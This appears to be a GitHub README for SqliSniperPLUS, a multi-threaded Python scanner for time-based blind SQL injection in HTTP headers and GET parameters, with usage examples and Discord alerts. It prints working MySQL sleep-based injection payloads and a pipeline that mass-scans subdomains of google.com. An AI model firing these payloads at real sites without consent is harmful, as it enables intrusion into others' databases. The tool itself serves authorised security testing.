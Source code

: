 <p align="center">
<a href="https://opensource.org/licenses/MIT"><img src="https://img.shields.io/badge/license-MIT-_red.svg"></a>
</p>

<p align="center">
  <a href="#installation">Installation</a> •
  <a href="#usage">Usage</a> •
</p>

**SqliSniperPLUS** is a robust Python tool designed to detect time-based blind SQL injections in HTTP request headers and GET parameters. It enhances the security assessment process by rapidly scanning and identifying potential vulnerabilities using multi-threaded, ensuring speed and efficiency. Unlike other scanners, SqliSniperPLUS is designed to eliminates false positives through and send alerts upon detection, with the built-in Discord notification functionality.

## Key Features
- **Time-Based Blind SQL Injection Detection:** Pinpoints potential SQL injection vulnerabilities in HTTP headers.
- **Multi-Threaded Scanning:** Offers faster scanning capabilities through concurrent processing.
- **Discord Notifications:** Sends alerts via Discord webhook for detected vulnerabilities.
- **False Positive Checks:** Implements response time analysis to differentiate between true positives and false alarms.
- **Custom Payload and Headers Support:** Allows users to define custom payloads and headers for targeted scanning.


## Installation
```
git clone https://github.com/highchoice/SqliSniperPLUS.git
cd SqliSniperPLUS
chmod +x SqliSniperPlus.py
pip3 install -r requirements.txt
```
# Usage

This will display help for the tool. Here are all the options it supports.
```
ubuntu:~/SqliSniperPLUS$ ./SqliSniperPlus.py -h

usage: SqliSniperPlus.py [-h] [-u URL] [-r URLS_FILE] [-p] [--proxy PROXY] [--payload PAYLOAD] [--single-payload SINGLE_PAYLOAD] [--discord DISCORD] [--headers HEADERS]
                     [--threads THREADS] [--getparams]

Detect SQL injection by sending malicious queries

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Single URL for the target
  -r URLS_FILE, --urls_file URLS_FILE
                        File containing a list of URLs
  -p, --pipeline        Read from pipeline
  --proxy PROXY         Proxy for intercepting requests (e.g., http://127.0.0.1:8080)
  --payload PAYLOAD     File containing malicious payloads (default is payloads.txt)
  --single-payload SINGLE_PAYLOAD
                        Single payload for testing
  --discord DISCORD     Discord Webhook URL
  --headers HEADERS     File containing headers (default is headers.txt)
  --threads THREADS     Number of threads
  --getparams           Test only GET parameters for SQL injection | without this switch just Headers will be tested!
```

# Running SqliSniperPLUS
### Single Url Scan - Headers only
The url can be provided with `-u flag` for single site scan
```
./SqliSniperPlus.py -u http://example.com
```
### Single Url Scan GET params only
The url can be provided with `-u flag` for single site scan with `--getparams` to scan onyla GET parameters
```
./SqliSniperPlus.py -u http://example.com/param1=xxx&param2=123 --getparams
```
### File Input
The `-r flag` allows SqliSniperPlUS to read a file containing multiple URLs for simultaneous scanning.
```
./SqliSniperPlus.py -r url.txt
```
### piping URLs
The SqliSniperPlUS can also worked with the pipeline input with `-p flag`
```
cat url.txt | ./SqliSniperPlus.py -p
```
The pipeline feature facilitates seamless integration with other tools. For instance, you can utilize tools like subfinder and httpx, and then pipe their output to SqliSniperPlUS for mass scanning.
```
subfinder -silent -d google.com | sort -u | httpx -silent | ./SqliSniperPlus.py -p
```
### Scanning with custom payloads  
By default the SqliSniperPlUS use the payloads.txt file. However `--payload flag` can be used for providing custom payloads file.
```
./SqliSniperPlus.py -u http://example.com --payload mssql_payloads.txt
```
While using the custom payloads file, ensure that you substitute the sleep time with `%__TIME_OUT__%`. SqliSniperPlUS dynamically adjusts the sleep time iteratively to mitigate potential false positives.
The payloads file should look like this.
```
ubuntu:~/SqliSniperPLUS$ cat payloads.txt 
0\"XOR(if(now()=sysdate(),sleep(%__TIME_OUT__%),0))XOR\"Z
"0"XOR(if(now()=sysdate()%2Csleep(%__TIME_OUT__%)%2C0))XOR"Z"
0'XOR(if(now()=sysdate(),sleep(%__TIME_OUT__%),0))XOR'Z
```
### Scanning with Single Payloads
If you want to only test with the single payload `--single-payload flag` can be used. Make sure to replace the sleep time with `%__TIME_OUT__%`
```
./SqliSniperPlus.py -r url.txt --single-payload "0'XOR(if(now()=sysdate(),sleep(%__TIME_OUT__%),0))XOR'Z"
```
### Scanning Custom Header 
Headers are saved in the file headers.txt for scanning custom header save the custom HTTP Request Header in headers.txt file. 
```
ubuntu:~/SqliSniperPLUS$ cat headers.txt 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
X-Forwarded-For: 127.0.0.1
```
### Scanning GET Parameters 
GET parameters are parsed from URL and tested one by one 
```
ubuntu:~/SqliSniperPLUS$ ./SqliSniperPlus.py -r url.txt --getparams
```
### Scanning GET Parameters with papline 
Automate testing list of urls with other tools 
```
ubuntu:~/SqliSniperPLUS$ cat url.txt | katana -f qurl -silent | sort -u | python3 sqlisniperNEWv4.py -p --proxy http://10.10.16.1:9090 --threads 50 --getparams
```
### Sending Discord Alert Notifications
SqliSniperPlUS also offers Discord alert notifications, enhancing its functionality by providing real-time alerts through Discord webhooks. This feature proves invaluable during large-scale scans, allowing prompt notifications upon detection.
```
./SqliSniperPlus.py -r url.txt --discord <web_hookurl>
```
### Multi-Threading 
Threads can be defined with `--threads flag`
```
 ./SqliSniperPlus.py -r url.txt --threads 10
```
**Note:** It is crucial to consider that **employing a higher number of threads might lead to potential false positives or overlooking valid issues**. Due to the nature of time-based SQL injection it is recommended to use lower thread for more accurate detection.

---

<table>
<tr>
<td>

## Legal Disclaimer

Usage of this tool for attacking targets without prior mutual consent is strictly prohibited. It is the end user's responsibility to obey all applicable local, state, and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program..

</td>
</tr>
</table>

---

# Contributing
Contributions to SqliSniperPlUS are always welcome. Whether it's feature enhancements, bug fixes, or documentation improvements, every bit of help is appreciated.


